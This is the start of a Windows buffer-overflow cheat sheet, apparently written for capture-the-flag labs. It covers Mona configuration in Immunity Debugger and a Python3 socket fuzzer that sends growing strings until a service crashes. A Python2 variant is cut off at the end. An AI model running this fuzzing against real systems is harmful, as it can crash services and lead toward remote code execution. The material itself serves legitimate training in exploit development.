# Windows - Buffer Overflows

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

#### Step 1: Ensure Mona is installed in Immunity Debugger

#### Step 2: Launch Immunity Debugger, open relevant application, and run the program with the red play button

#### Step 3: Configure working folder with this command at the bottom of Immunity Debugger:

```
!mona config -set workingfolder [FILE-PATH]
```

Example:

```
!mona config -set workingfolder c:\mona\%p
```

#### Step 4: Fuzz the application; Note the length of string that is needed to crash the application

Example Python3 Code for Fuzzing:

 ```
 #!/usr/bin/env python3

import socket, time, sys

ip = "10.10.237.191"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
Example Python2 Code for Fuzzing:
```
# Credit: pencer.io (https://pencer.io/ctf/ctf-thm-gatekeeper/)

import socket, time, sys

ip = "10.9.0.78"
port = 31337
```
